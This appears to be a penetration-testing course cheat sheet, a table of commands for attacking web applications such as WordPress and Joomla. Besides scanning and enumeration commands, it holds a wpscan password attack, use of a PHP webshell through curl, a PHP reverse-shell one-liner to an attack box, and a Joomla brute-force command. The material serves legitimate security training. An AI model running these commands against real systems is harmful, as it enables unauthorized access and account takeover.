 # Attacking Common Applications

## **Cheat Sheet**

The cheat sheet is a useful command reference for this module.

| Command                                                                                                                                                                                                                                       | Description                                                                                                                                                                                                                    |
| --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| `sudo vim /etc/hosts`                                                                                                                                                                                                                         | Opens the `/etc/hosts` with `vim` to start adding hostnames                                                                                                                                                                    |
| `sudo nmap -p 80,443,8000,8080,8180,8888,10000 --open -oA web_discovery -iL scope_list`                                                                                                                                                       | Runs an nmap scan using common web application ports based on a scope list (`scope_list`) and outputs to a file (`web_discovery`) in all formats (`-oA`)                                                                       |
| `eyewitness --web -x web_discovery.xml -d <nameofdirectorytobecreated>`                                                                                                                                                                       | Runs `eyewitness` using a file generated by an nmap scan (`web_discovery.xml`) and creates a directory (`-d`)                                                                                                                  |
| `cat web_discovery.xml \| ./aquatone -nmap`                                                                                                                                                                                                   | Concatenates the contents of nmap scan output (web\_discovery.xml) and pipes it to aquatone (`./aquatone`) while ensuring aquatone recognizes the file as nmap scan output (`-nmap`)                                           |
| `sudo wpscan --url <http://domainnameoripaddress> --enumerate`                                                                                                                                                                                | Runs wpscan using the `--enmuerate` flag. Can replace the url with any valid and reachable URL in each challenge                                                                                                               |
| `sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url <http://domainnameoripaddress>`                                                                                                                 | Runs wpscan and uses it to perform a password attack (`--password-attack`) against the specified url and references a word list (`/usr/share/wordlists/rockyou.txt`)                                                           |
| `curl -s http://<hostnameoripoftargetsite/path/to/webshell.php?cmd=id`                                                                                                                                                                        | cURL command used to execute commands (`cmd=id`) on a vulnerable system utilizing a php-based webshell                                                                                                                         |
| `<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<ip address of attack box>/<port of choice> 0>&1'");`                                                                                                                                          | PHP code that will execute a reverse shell on a Linux-based system                                                                                                                                                             |
| `droopescan scan joomla --url http://<domainnameoripaddress>`                                                                                                                                                                                 | Runs `droopescan` against a joomla site located at the specified url                                                                                                                                                           |
| `sudo python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr <username or path to username list>`                                                             | Runs joomla-brute.py tool with python3 against a specified url, utilizing a specified wordlist (`/usr/share/metasploit-framework/data/wordlists/http_default_pass.txt`) and user or list of usernames (`-usr`)                 |